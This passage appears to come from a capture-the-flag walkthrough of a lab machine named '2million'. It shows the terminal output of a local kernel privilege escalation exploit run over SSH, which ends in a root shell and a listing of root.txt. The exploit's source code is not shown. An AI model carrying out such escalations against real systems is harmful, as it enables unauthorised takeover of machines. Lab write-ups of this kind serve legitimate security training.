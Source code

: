 ```
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601

```

Launch another SSH connection:

```
admin@2million:~/10.10.16.85:8000$ ./exp 18:38:24 [17/17]
uid:1000 gid:1000                                                                                                                                                                                         
[+] mount success                                                                                                                                                                                         
total 8                                                                                                                                                                                                   
drwxrwxr-x 1 root   root     4096 Mar 20 22:33 .                                                                                                                                                          
drwxrwxr-x 6 root   root     4096 Mar 20 22:33 ..                                                                                                                                                         
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file                                                                                                                                                       
[+] exploit success!                                                                                                                                                                                      
To run a command as administrator (user "root"), use "sudo <command>".                                                                                                                                    
See "man sudo_root" for details. 

root@2million:~/10.10.16.85:8000# cd ..                                                                                                                                                                   
root@2million:~# cd /root/                                                                                                                                                                                
root@2million:/root# ls                                                                                                                                                                                   
root.txt  snap  thank_you.json 
```

[+] Completed.